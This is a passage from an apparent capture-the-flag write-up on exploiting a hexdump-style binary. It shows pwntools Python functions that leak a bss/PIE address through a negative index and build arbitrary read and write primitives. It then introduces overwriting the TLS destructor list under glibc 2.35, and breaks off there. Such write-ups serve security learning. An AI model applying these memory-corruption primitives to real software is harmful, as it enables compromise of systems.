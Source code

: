 Our next goal is to find a way to arbitrary read / write, 
so for that we need to leak PIE addres / find negetive index 
that can overwrite dump blocks addresses then we could edit each address content that we want.

so for that i found that dump size of the dump index number `-259` contains its own address (loop pointer) 
and we can leak it / overwrite its first byte and make it point to any PIE address we want!

This is the function that leaks that index:
```py
def leak_bss(p: process):
    send_option(p, "3")
    p.sendline("-259") #offset of
    p.sendline(str(0xffff_ffff_ffff_ffff))
    p.recvuntil(">= ")
    bss = int(p.recvline()[:-1])
    print("bss: ", hex(bss))
    return bss
```

Now we got two leaks and the ability to do an arbitrary write both for libc and PIE addresses, so lets write the arbitrary write function.
```py
def arbitrary_write(p: process, addr: int, data: int):
    idx = -191
    for b in range(8):
        change_byte(p, idx, b, (addr >> (b * 8)) & 0xff)

    idx -= 1
    for b in range(8):
        change_byte(p, idx, b, (data >> (b * 8)) & 0xff)
```
This function edit the the address that our bss leak point to and then overwrite the content that this address point to.

And now we also able to use that address for arbitrary read, we may shoudl also use the `hexdump_dump` function to read and print the memory in the arbitrary address:
```py
def arbitrary_read(p: process, addr: int):
    idx = -191
    for b in range(8):
        change_byte(p, idx, b, (addr >> (b * 8)) & 0xff)
    p.sendline("2")
    p.sendline("-192")
    p.recvuntil("0000 |   ")
    line = b''.join(reversed(p.recvline()[:-1].split(b' ')))
    res = int(line, 16)
    return res
```

Now we have strong primitives to build our exploit, 
the glibc version is 2.35 so we cant overwrite malloc / realloc / free hooks, 
so i chose another cool technique that uses by overwrite the tls_call_dtors functions array 
that call that function before the program to exit.
